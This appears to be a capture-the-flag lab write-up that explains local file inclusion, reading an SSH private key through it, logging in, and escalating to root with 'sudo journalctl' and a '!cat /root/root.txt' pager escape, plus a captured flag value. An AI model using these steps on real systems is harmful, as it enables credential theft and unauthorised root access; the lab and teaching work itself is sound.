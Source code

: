 24 June 2021	-	Thursday

LFI
---

Local File Inclusion (LFI) is the vulnerability that is mostly found in web servers. This vulnerability is exploited when a user input contains a certain path to the file which might be present on the server and will be included in the output. This kind of vulnerability can be used to read files containing sensitive and confidential data from the vulnerable system.



*	Read ssh private using LFI bug (i.e. file traversal reading file)

*	ssh private key of remote server is stored on `privateKey` file

###	connect to server using private key:

*	make `privateKey` as a priviledged file (i.e. only read/write access by current user).
	```
	chmod 600 privateKey
	```

*	connect to server via __ssh__ using privateKey.
	```
	ssh -i ./privateKey falcon@10.10.39.9
	```

*	Now read `user.txt` file to get first flag.
	```
	B8LEGIF049JT4RTVWUG4
	```

*	see what commands current user can run with sudo using `sudo -l` command
	```
	/bin/journalctl
	```

*	search for `journalctl` and see any stuff related to privilege escalation.

	*	got this site: https://gtfobins.github.io/gtfobins/journalctl/

*	basically just run this command:
	```
	sudo journalctl
	```

	*	Basically this invokes the default pager as **root** user using `vim` editor inside the shell.

*	using this command, you can read `root.txt` flag, which can only be read by root user.
	```
	!cat /root/root.txt
	```





